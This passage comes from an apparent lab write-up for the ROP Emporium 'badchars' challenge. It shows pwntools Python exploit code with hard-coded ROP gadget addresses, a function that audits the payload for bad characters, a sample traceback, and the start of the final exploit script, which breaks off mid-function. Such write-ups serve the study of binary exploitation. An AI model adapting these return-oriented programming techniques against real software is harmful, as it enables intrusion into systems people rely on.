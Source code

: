 Instead of writing to the first half of `.data`, which will result in sending a bad character, why don't we write to the second half instead? Worth a shot. If we're feeling _really_ paranoid, we could add another operation using our `MOV_R13_PTR_GADGET` to append a zero after that, ensuring our string is null-terminated.

So, we change our data address like so:

```python
# don't p64() this so we can do operations on it later
DATA_ADDR = 0x601028 + 8
```

And to avoid humiliation, we'll add a check for bad characters:

```python
BAD_CHARS = [ord('x'), ord('g'), ord('a'), ord('.')]

def audit_payload(payload):
    for b in payload:
        if int(b) in BAD_CHARS:
            return chr(b)
    return None

audit_res = audit_payload(payload)
assert audit_res is None, "fuck you, payload contains character '%s'" % audit_res
```

If we run this on the old script (i.e. with `DATA_PTR` set to `0x601028`) we get this:

```text
Traceback (most recent call last):
  File "/home/sammy/Projects/binexp/ropemporium/5-badchars/exploit.py", line 85, in <module>
    assert audit_res is None, "fuck you, payload contains character '%s'" % audit_res
AssertionError: fuck you, payload contains character '.'
```

Which means our payload check is working properly. But now, with our new data pointer, it should all work out fine.

We can put the finishing touches on our script:

```python
from pwn import *

elf = context.binary = ELF("./badchars")

PRINT_FILE = p64(elf.symbols.print_file)

XOR_KEY = 0xe5

# xor byte ptr [r15], r14b; ret
XOR_R15_R14B_GADGET = p64(0x400628)
# pop r14; pop r15; ret
POP_R14_R15_GADGET = p64(0x4006a0)
# pop r12; pop r13; pop r14; pop r15; ret
POP_R12_TO_R15_GADGET = p64(0x40069c)
# pop rdi; ret
POP_RDI_GADGET = p64(0x4006a3)
# mov qword ptr [r13], r12; ret
MOV_R13_PTR_GADGET = p64(0x400634)

# don't p64() this so we can do operations on it later
DATA_ADDR = 0x601028 + 8

# prohibited characters
BAD_CHARS = [ord('x'), ord('g'), ord('a'), ord('.')]

def xor_bytes(u8s):
    ret = bytes()
```